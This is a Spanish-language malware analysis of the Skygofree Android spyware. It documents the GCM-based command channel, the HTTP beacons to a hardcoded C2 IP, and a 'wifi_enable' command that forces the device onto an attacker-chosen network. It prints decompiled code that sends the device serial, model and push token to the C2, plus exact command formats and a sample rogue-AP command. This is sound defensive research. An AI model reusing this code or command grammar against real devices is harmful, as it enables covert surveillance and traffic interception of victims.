

Skygofree combina un canal de órdenes basado en Google Cloud Messaging (GCM) con un canal HTTP utilizado para registrar el dispositivo, resolver el panel activo de C&C y comunicar resultados. Estas capacidades se encuentran contextualizadas en el [análisis de Skygofree publicado por Kaspersky](https://securelist.com/skygofree-following-in-the-footsteps-of-hackingteam/83603/). La capacidad estudiada permite también que el operador remita además los parámetros de una red Wi-Fi y que la aplicación la añada a la configuración de Android y solicite su activación.


La consideración de [T1638, Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1638/) depende de una condición externa: la red configurada gracias al canal de comunicaciones debe pertenecer al adversario. La muestra aporta el mecanismo de asociación, pero es trabajo del atacante establecer el punto de acceso.

El análisis se apoya en la APK abierta en JADX:

| Artefacto estudiado | Identidad                                                                             | SHA-256                                                            |
| ------------------- | ------------------------------------------------------------------------------------- | ------------------------------------------------------------------ |
| APK original        | Paquete `com.sysmanager`, versión `3.1.16`, `minSdkVersion` 9 y `targetSdkVersion` 22 | `accd05c00951ef568594efebd5c30bdce2e63cee9b2cdd88cb705776e0a4ca70` |

### División de canales de red

Como ya se ha mencionado, la comunicación funcional no consiste en una única conversación bidireccional. Una separación de los canales usados es:

| Dirección funcional | Transporte | Finalidad |
|---|---|---|
| Dispositivo a infraestructura de Google | GCM sobre las conexiones administradas por Google Play Services | Obtención del token y mantenimiento del canal de notificaciones |
| Panel a infraestructura de Google y dispositivo | API de GCM y canal push | Entrega de órdenes como `attiva` o `wifi_enable_...` |
| Dispositivo a panel | HTTP con cuerpos JSON | Registro, resolución del servidor activo y confirmaciones |

Esta separación sustenta [T1481.003, Web Service: One-Way Communication](https://attack.mitre.org/techniques/T1481/003/). GCM se emplea en una sola dirección funcional: entrega la orden al dispositivo, pero el resultado de su ejecución vuelve por HTTP. Es precisamente la descripción que ofrece MITRE de la técnica; el uso de un servicio web legitimo para solo una fase comunicativa, generalmente la petición.

Además, el contenido del canal GCM viaja protegido por las conexiones TLS de la infraestructura de Google. Una captura sin claves de sesión permite observar la resolución de nombres, los extremos, los puertos y las sesiones TLS, pero no el campo `comando` en claro. Esto (como es lógico) ofrece mucha robustez a la arquitectura maliciosa. Las confirmaciones enviadas al panel sí son visibles porque la muestra utiliza HTTP. 

El transporte HTTP es relativamente simple, en el sentido de que se basa en tráfico HTTP con datos formateados en JSON:

```java
RequestBody body = RequestBody.create(JSON, json.toString());
Request request = new Request.Builder()
    .url(targetURL)
    .post(body)
    .build();
Response response = client.newCall(request).execute();
String res = response.body().string();
```

Las tres funciones que contiene este canal HTTP (refiérase al diagrama) se basan precisamente en tres rutas diferentes. Estas son `register.php`, `ser.php` y `control.php`. La primera vincula la identidad local con el token GCM; la segunda devuelve la base HTTP activa; la tercera recibe las confirmaciones funcionales.

### Comandos recibidos por Google Cloud Messaging

`MessageManagement` hereda de `GcmListenerService`. Google Play Services invoca `onMessageReceived()` cuando llega una notificación y la muestra extrae la orden del campo `comando`:

```java
String comando = data.getString("comando");
```

Las órdenes `attiva` y `disattiva` se procesan con independencia del estado previo porque son precisamente las órdenes que modifican la activación:

| Orden       | Condición                                   | Efecto local             | Confirmación HTTP |
| ----------- | ------------------------------------------- | ------------------------ | ----------------- |
| `attiva`    | Contiene `attiva` y no contiene `disattiva` | Guarda `attivazione = 1` | `attivataYES`     |
| `disattiva` | Contiene `disattiva`                        | Guarda `attivazione = 0` | `attivataNO`      |

Ese valor `attivazione = 1` se persiste en las tablas locales. Después, cuando llega otra orden, el método recupera ese estado de la base de datos en una variable local denominada `licenza`; si vale `1`, se permiten las ramas de comandos como `wifi_...`, `sms`, `camera`, etc. Es decir, ambas variables tienen la misma función lógica.

| Orden | Método ejecutado | Efecto principal |
|---|---|---|
| `start` / `stop` | `startRecording()` / `stopRecording()` | Inicia o detiene la grabación ambiental |
| `net_y` / `net_n` | `enableNET()` / `disableNET()` | Activa o desactiva el módulo asociado a la red |
| `gps_y` / `gps_n` | `enableGPS()` / `disableGPS()` | Activa o desactiva el módulo GPS |
| `cella_start` / `cella_stop` | `cellaEnabled()` / `cellaStop()` | Controla la recolección de información celular |
| `rubrica` | `rubricaEnabled()` | Recupera contactos |
| `sms` | `smsEnabled()` | Recupera mensajes SMS |
| `registro_chiamate...` | `CallRegisterEnabled()` | Recupera el registro de llamadas |
| `camera...` | `cameraEnabled()` | Activa la funcionalidad de cámara |
| `history...` | `historyEnabled()` | Recupera el historial |
| `cancan...` | `listaApps()` | Enumera las aplicaciones instaladas |
| `wifi_...` | `wifiManageConfiguration()` | Modifica la configuración Wi-Fi |
| `mobileconn` | `mobileConnectionEnable()` | Gestiona la conectividad móvil |
| `filelists` | `listaFile()` | Enumera ficheros |
| `getfile...` | `sendFileChoose()` | Envía un fichero seleccionado |
| `whatsapp...` | `whatsappEnabled()` | Activa la ruta asociada con WhatsApp |
| `info` | `infoEnabled()` | Envía información del dispositivo |
| `status` | `statusEnabled()` | Envía el estado de los módulos |
| `wifi3gsetting_...` | `wifi3gsettingEnabled()` | Cambia la preferencia entre Wi-Fi y red móvil |
| `resetalarm...` | Gestión de `AndroidAlarmManage` | Reinicia, inicia o detiene el servicio de cola |

La mayoría de estas peticiones no van a ser estudiadas. El resto del análisis se concentra en `wifi_...`, que es la rama necesaria para la asociación remota a una red controlada. Ahora conviene desarrollar qué ocurre de manera secuencial, empezando con el registro.

### Registro inicial de la víctima

La actividad `com.sysmanager.Main` llama a `runApp(true)` al iniciarse. Este método prepara las tablas locales `DataBoot` y `DataStatus`, utiliza `Build.SERIAL` como identificador del dispositivo y establece inicialmente `attivazione` a cero:

```java
DataBoot bootinfo = new DataBoot();
bootinfo.setId(0);
bootinfo.setSerialnumber(Build.SERIAL);
bootinfo.setAttivazione(0);

DataStatus statusInfo = new DataStatus();
statusInfo.setId(0);
statusInfo.setSerialnumber(Build.SERIAL);
statusInfo.setAttivazione(0);

db.createBoot(bootinfo);
db.createStatus(statusInfo);
ThreadRegistration();
```

La obtención del token se realiza en `RegistrationIntentService.onHandleIntent()`. El identificador del remitente está fijado en el código y la aplicación también se suscribe al tema `global`:

```java
InstanceID instanceID = InstanceID.getInstance(this);
String token = instanceID.getToken(
    "662966484664",
    GoogleCloudMessaging.INSTANCE_ID_SCOPE,
    null
);
sendRegistrationToServer(token);
subscribeTopics(token);
```

Cuando el token no está vacío, `sendRegistrationToServer()` entrega al panel HTTP el token, el modelo y el número de serie:

```java
NetworkServices ns = NetworkServices.getInstance();
String serialnumber = Build.SERIAL;
ns.registerToken(token, Build.MODEL, serialnumber);
Costanti.isRegistered = true;
```

La petición se ejecuta en un hilo de `NetworkServices`. El cuerpo se construye mediante conversión a JSON.

```java
new Registration(serialnumber, regid, modello);
System.setProperty("http.keepAlive", "false");
boolean done = HTTPUtility.excuteHttpPost(
    "http://217.194.13.133/app/pro/register.php",
    false,
    Registration.convertRegistrationToJson()
).contains("OK");
```

```java
JSONObject jsonRegistration = new JSONObject();
jsonRegistration.put("serialnumber", serialnumber);
jsonRegistration.put("regId", regId);
jsonRegistration.put("modello", modello);
```

La petición observable tendrá esta estructura:

```http
POST /app/pro/register.php HTTP/1.1
Host: 217.194.13.133
Content-Type: application/json; charset=utf-8
Connection: close

{"serialnumber":"<Build.SERIAL>","regId":"<TOKEN_GCM>","modello":"<Build.MODEL>"}
```

El panel no necesita responder exactamente `OK`, de hecho cualquier cuerpo que incluya esa secuencia es suficiente. 

### Mantenimiento del canal GCM

Tras el registro, la aplicación inicia `AndroidClock`. Este servicio programa una tarea cada minuto que emite dos broadcasts dirigidos a Google Play Services:

```java
sendBroadcast(new Intent(
    "com.google.android.intent.action.GTALK_HEARTBEAT"
));
sendBroadcast(new Intent(
    "com.google.android.intent.action.MCS_HEARTBEAT"
));
```

```java
scheduledExecutorService.scheduleAtFixedRate(
    task,
    0L,
    1L,
    TimeUnit.MINUTES
);
```

Los broadcasts son eventos locales; la aplicación no construye directamente los paquetes de mantenimiento. No obstante, solicitan a la infraestructura de Google instalada en el dispositivo que mantenga activa la conexión MCS utilizada por GCM. Por ello, una captura de red puede contener tráfico TLS periódico hacia Google a lo largo de su duración.

### Activación previa

Como ya se comentó en la introducción, la orden Wi-Fi queda detrás de la comprobación `licenza == 1`. Una víctima cuyo estado inicial sea cero debe recibir primero `attiva`:

```java
if (comando.contains("attiva") && !comando.contains("disattiva")) {
    updateData("attivazione", 1, context);
    HTTPUtility.InvioCommandoPresenza(
        "attivataYES",
        getApplicationContext(),
        serialnumber
    );
} else if (comando.contains("disattiva")) {
    updateData("attivazione", 0, context);
    HTTPUtility.InvioCommandoPresenza(
        "attivataNO",
        getApplicationContext(),
        serialnumber
    );
} else if (licenza == 1) {
    ...
}
```

El método `updateData()` persiste el cambio tanto en la información de arranque como en el estado general:

```java
if (dato.equalsIgnoreCase("serialnumber")
        || dato.equalsIgnoreCase("attivazione")
        || dato.equalsIgnoreCase("ambientale")
        || dato.equalsIgnoreCase("wifi3g")) {
    db.updateBootInfo(dato, valore);
}
if (!dato.equalsIgnoreCase("wifi3g")) {
    db.updateStatusInfo(dato, valore);
}
```

El mensaje funcional que debe entregar GCM es, por tanto:

```text
comando=attiva
```

Después de persistir el nuevo estado, la aplicación inicia de forma asíncrona la confirmación `attivataYES`. Y ya se pueden hacer uso de todos los comandos que ofrece el canal C&C.

### Resolución del servidor activo

Las confirmaciones no se envían hasta que `HTTPUtility.obtainHostName()` consulta el servidor activo. El método acepta un parámetro `serialnumber`, aunque el cuerpo utiliza directamente `Build.SERIAL`:

```java
JSONObject serial = new JSONObject();
serial.put("serialnumber", Build.SERIAL);
String result = excuteHttpPostServer(
    "http://217.194.13.133/app/pro/ser.php",
    false,
    serial
);
```

La petición resultante es:

```http
POST /app/pro/ser.php HTTP/1.1
Host: 217.194.13.133
Content-Type: application/json; charset=utf-8
Connection: close

{"serialnumber":"<Build.SERIAL>"}
```

Para la respuesta de `ser.php` no se deserializa el JSON y se extrae la URL directamente. Dicha respuesta debe contener `http://` (el malware exige HTTP y no permite HTTPS), terminar en `/` y no estar vacía:

```java
if (server_Dest.contains("http://")
        && server_Dest.endsWith("/")
        && !server_Dest.isEmpty()) {
    ...
}
```

Una respuesta compatible presenta esta forma:

```text
http://<servidor-activo>/<ruta-base>/
```

### Confirmación de comandos

Una vez validado el servidor de destino, el método `InvioCommandoPresenza()` crea un `ComandoFeedback` y envía la confirmación a `control.php`:

```java
new ComandoFeedback(
    serialnumber != null ? serialnumber : "",
    comando != null ? comando : ""
);
HTTPUtility.HttpPostRequest(
    Costanti.URL_PATH_MAIN,
    ComandoFeedback.convertComandoToJSON(),
    "control.php"
);
if (!Costanti.URL_PATH_MAIN.equals(server_Dest)) {
    HTTPUtility.HttpPostRequest(
        server_Dest,
        ComandoFeedback.convertComandoToJSON(),
        "control.php"
    );
}
```

El cuerpo conserva dos campos:

```java
JSONObject jsonComando = new JSONObject();
jsonComando.put("serialnumber", serialnumber);
jsonComando.put("comando", comando);
```

Para la activación, la primera petición se dirige siempre a la base codificada `http://217.194.13.133/app/pro/`:

```http
POST /app/pro/control.php HTTP/1.1
Host: 217.194.13.133
Content-Type: application/json; charset=utf-8
Connection: close

{"serialnumber":"<Build.SERIAL>","comando":"attivataYES"}
```

Si `ser.php` devolvió otro servidor válido, la aplicación repite el mismo `POST` contra ese segundo destino. Esta implementación resulta algo ineficiente, ya que puede duplicar el envío de las mismas peticiones. Además, la posibilidad de seleccionar dinámicamente un servidor activo pierde parte de su utilidad si el panel codificado en la muestra sigue utilizándose de forma constante, ya que uno de los objetivos de esta rotación podría ser precisamente evitar depender siempre de una misma dirección IP y reducir así su exposición a mecanismos de detección o bloqueo. 

La secuencia hasta ahora estudiada queda formada por el registro HTTP, la orden `attiva` entregada mediante GCM, la consulta a `ser.php` y uno o dos envíos de `attivataYES` a `control.php`.

### Recepción del comando `wifi`

Con `licenza` igual a uno, `onMessageReceived()` alcanza la rama destinada a las órdenes Wi-Fi:

```java
} else if (comando.contains("wifi_")) {
    try {
        wifiManageConfiguration(context, comando);
    } catch (UnsupportedEncodingException e) {
        e.printStackTrace();
    }
}
```

La operación `wifiManageConfiguration()` divide la cadena por guiones bajos y asigna posiciones fijas a los parámetros:

```java
if (comando.split("_")[1].equalsIgnoreCase("enable")) {
    wifiManager.setWifiEnabled(true);
    String ssidecode = fixEncoding(comando.split("_")[2]);
    String passdecode = fixEncoding(comando.split("_")[3]);
    String cryptodecode = fixEncoding(comando.split("_")[4]);
    String typedecode = fixEncoding(comando.split("_")[5]);
    addWifiConfig(ssidecode, passdecode, cryptodecode, typedecode);
}
```

El formato aceptado es:

```text
wifi_enable_<SSID>_<PASSWORD>_<SECURITY>_<DETAIL>
```

Los campos no tienen longitud explícita ni un mecanismo de escape. Un guion bajo dentro del SSID o de la contraseña desplazaría las posiciones posteriores, de modo que el operador debe evitar ese carácter en los valores. Antes de utilizar cada campo, `fixEncoding()` comprueba si los bytes recibidos forman una cadena UTF-8 válida:

```java
byte[] bytes = latin1.getBytes("ISO-8859-1");
return !validUTF8(bytes)
    ? latin1
    : new String(bytes, Costanti.CODIFICA);
```

Como ya se ha comentado antes, la wifi debe pertenecer al atacante y estar en las vecindades de la víctima, por lo que se deben establecer valores controlados de laboratorio. Para el estudio de la muestra se usa esta orden, la cual respeta el formato reconstruido:

```text
comando=wifi_enable_SantanderFreeWiFi_RogueLab2026!_WPA2_AES
```

### Creación de la configuración Wi-Fi

El método `addWifiConfig()` traslada los cuatro parámetros a un objeto `WifiConfiguration`. La representación del SSID depende de la versión de Android:

```java
WifiConfiguration conf = new WifiConfiguration();
if (Build.VERSION.SDK_INT < 21) {
    conf.SSID = Costanti.BACKSLASH + ssid + Costanti.BACKSLASH;
} else {
    conf.SSID = ssid;
}
```

El campo `SECURITY` selecciona entre una red WEP, una red abierta y las variantes WPA admitidas por la rama:

```java
if (securityParam.equalsIgnoreCase("WEP")) {
    conf.wepKeys[0] = password;
    conf.wepTxKeyIndex = 0;
    conf.allowedKeyManagement.set(0);
    conf.allowedGroupCiphers.set(0);
} else if (securityParam.equalsIgnoreCase("NONE")) {
    conf.allowedKeyManagement.set(0);
} else if ("WPA".equalsIgnoreCase(securityParam)
        || "WPA2".equalsIgnoreCase(securityParam)
        || "WPA/WPA2 PSK".equalsIgnoreCase(securityParam)) {
    conf.preSharedKey = Costanti.BACKSLASH + password + Costanti.BACKSLASH;
    conf.allowedKeyManagement.set(1);
    conf.allowedProtocols.set(1);
    conf.allowedProtocols.set(0);
    conf.allowedGroupCiphers.set(2);
    conf.allowedGroupCiphers.set(3);
    conf.allowedPairwiseCiphers.set(1);
    conf.allowedPairwiseCiphers.set(2);
}
```

`DETAIL` restringe después el cifrado adicional a `TKIP`, `AES`, `WEP` o `NONE`. Con los parámetros ya aplicados, el método añade la red, la habilita con preferencia sobre las demás, guarda la configuración y mantiene activa la radio Wi-Fi:

```java
WifiManager wifiManager = (WifiManager) getSystemService("wifi");
int newNetworkId = wifiManager.addNetwork(conf);
wifiManager.enableNetwork(newNetworkId, true);
wifiManager.saveConfiguration();
wifiManager.setWifiEnabled(true);
```

El segundo argumento de `enableNetwork()` corresponde a `disableOthers`. Al establecerlo a `true`, la aplicación solicita que Android seleccione la nueva configuración frente a las redes previamente habilitadas en el terminal. A partir de ahí, la asociación, la autenticación 802.11 y la adquisición de parámetros mediante DHCP pertenecen a la pila de Android; no son tramas construidas directamente por Skygofree.

### Confirmación de `wifi`

La rama `enable` invoca `InvioCommandoPresenza("wifiYES", ...)` después del bloque que configura la red:

```java
try {
    String ssidecode = fixEncoding(comando.split("_")[2]);
    String passdecode = fixEncoding(comando.split("_")[3]);
    String cryptodecode = fixEncoding(comando.split("_")[4]);
    String typedecode = fixEncoding(comando.split("_")[5]);
    addWifiConfig(ssidecode, passdecode, cryptodecode, typedecode);
} catch (Exception e) {
    e.printStackTrace();
}
HTTPUtility.InvioCommandoPresenza(
    "wifiYES",
    getApplicationContext(),
    serialnumber
);
```

Esta colocación limita el significado de la confirmación. La excepción interna se captura antes de enviar `wifiYES`, por lo que el mensaje indica que la rama `enable` fue procesada, no que Android haya completado con éxito la asociación al punto de acceso.

La confirmación repite primero la resolución de `ser.php`:

```http
POST /app/pro/ser.php HTTP/1.1
Host: 217.194.13.133
Content-Type: application/json; charset=utf-8
Connection: close

{"serialnumber":"<Build.SERIAL>"}
```

Si la respuesta contiene una base HTTP válida, el panel recibe:

```http
POST /app/pro/control.php HTTP/1.1
Host: 217.194.13.133
Content-Type: application/json; charset=utf-8
Connection: close

{"serialnumber":"<Build.SERIAL>","comando":"wifiYES"}
```

Igualmente en este caso, la misma petición se duplica contra el servidor activo cuando este difiere de la base principal. 

### Secuencia comunicativa

Tras lo comentado en el estudio, un diagrama de paso de mensajes que a todos los efectos podría generarse en base a la muestra sería:



### Laboratorio de generación del PCAP

El laboratorio no ejecuta la APK ni crea una interfaz 802.11. Emula mediante procesos Python la firma de red reconstruida sobre una topología aislada de *network namespaces* e interfaces `veth`. La realidad es que el protocolo de comunicación es bastante simple (HTTP y JSON), por lo que la firma de tráfico se puede representar con servidores Python de manera sencilla.

La topología distribuye los roles y sus direcciones efectivas de la forma siguiente:

| Entidad                    | Dirección y servicio         | Procedencia                                                                                                                                                                                                                                                          |
| -------------------------- | ---------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Víctima emulada            | `10.32.7.10` y UDP/68 (DHCP) | Dirección privada asignada al cliente dentro del laboratorio.                                                                                                                                                                                                        |
| Resolutor controlado       | `8.8.8.8:53`                 | Dirección publicada por [Google Public DNS](https://developers.google.com/speed/public-dns/docs/using); el servicio se emula dentro de la red aislada.                                                                                                               |
| Panel de Skygofree         | `217.194.13.133:80`          | Dirección y puerto HTTP integrados en la muestra para `register.php`, `ser.php` y `control.php`; [Kaspersky](https://securelist.com/skygofree-following-in-the-footsteps-of-hackingteam/83603/) también documentó esta IP dentro de la infraestructura de Skygofree. |
| InstanceID                 | `172.217.117.4:443`          | Respuesta A de `iid.googleapis.com` obtenida el 21 de agosto de 2026.                                                                                                                                                                                                |
| API GCM                    | `172.217.115.4:443`          | Respuesta A de `android.googleapis.com` obtenida el 21 de agosto de 2026.                                                                                                                                                                                            |
| Canal `mtalk`              | `172.253.157.188:5228`       | Respuesta A de `mtalk.google.com` obtenida el 21 de agosto de 2026.                                                                                                                                                                                                  |
| Punto de acceso controlado | `10.32.7.1:67`               | Dirección privada elegida para representar el servidor DHCP del escenario posterior.                                                                                                                                                                                 |
| Sitio legítimo simulado    | `18.154.48.19:80`            | Respuesta A distribuida para `www.bancosantander.es` obtenida el 21 de agosto de 2026.                                                                                                                                                                               |

Después de `wifiYES`, el emulador añade una secuencia DHCP, una consulta DNS para `www.bancosantander.es` y un `POST` con credenciales ficticias. Esta extensión representa qué tráfico podría quedar expuesto si la red configurada perteneciera al adversario. 

La arquitectura de GCM reproducida por el escenario sigue la documentación de [Firebase Cloud Messaging](https://firebase.google.com/docs/cloud-messaging/fcm-architecture) y sus [requisitos de red](https://firebase.google.com/docs/cloud-messaging/network-configuration). Los nombres, las credenciales y el contenido bancario pertenecen exclusivamente al entorno controlado.
